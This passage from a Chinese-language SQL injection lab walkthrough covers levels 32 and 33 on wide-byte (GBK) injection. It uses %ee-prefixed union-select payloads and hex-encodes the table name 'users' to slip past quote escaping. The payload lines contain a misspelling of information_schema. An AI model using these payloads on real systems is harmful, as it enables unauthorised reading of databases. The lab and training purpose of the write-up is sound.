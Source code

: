![image](https://user-images.githubusercontent.com/76896357/115106727-ed4ca280-9f98-11eb-8d47-f63124df0489.png)

可以根据回显看处数据库

* 查看数据表

![image](https://user-images.githubusercontent.com/76896357/115106769-2422b880-9f99-11eb-8782-ce56d2305bd6.png)

* 查看字段

![image](https://user-images.githubusercontent.com/76896357/115106810-5cc29200-9f99-11eb-928c-49538fa42fd2.png)

* 查询字段内容

![image](https://user-images.githubusercontent.com/76896357/115106835-7fed4180-9f99-11eb-8fff-f69642be1310.png)

## 32. 宽字节注入

将/进行url转码，再配合另一个比如%ee合在一起转换成gbk字符，把/吃掉

* 查看是否有回显

```
?id=-1%ee' union select 1,2,3 --+
```
![image](https://user-images.githubusercontent.com/76896357/115107087-4fa6a280-9f9b-11eb-8a2c-b78c0b2c3e86.png)

* 查库

```
?id=-1%ee' union select 1,2,3 --+
```

![image](https://user-images.githubusercontent.com/76896357/115107537-03a92d00-9f9e-11eb-9e20-9549a227a1f4.png)

剩下的基本上就没什么问题了

* 查列，这时候的users需要改变一下

```
?id=-1%ee' union select 1,2,column_name from information_schcema.columns where table_name='users' --+//不行
?id=-1%ee' union select 1,2,column_name from information_schcema.columns where table_name=0x7573657273 --+//对user进行十六进制编码，此时的‘’可以用0x代替
```
![image](https://user-images.githubusercontent.com/76896357/115107796-a44c1c80-9f9f-11eb-9a20-f40227e9bca2.png)

剩下就没啥了。。。过


## 33.宽字节注入

仍然是刚才查列的句子，直接爆出来了。。

![image](https://user-images.githubusercontent.com/76896357/115107901-1d4b7400-9fa0-11eb-8dde-662f50efa7a5.png)
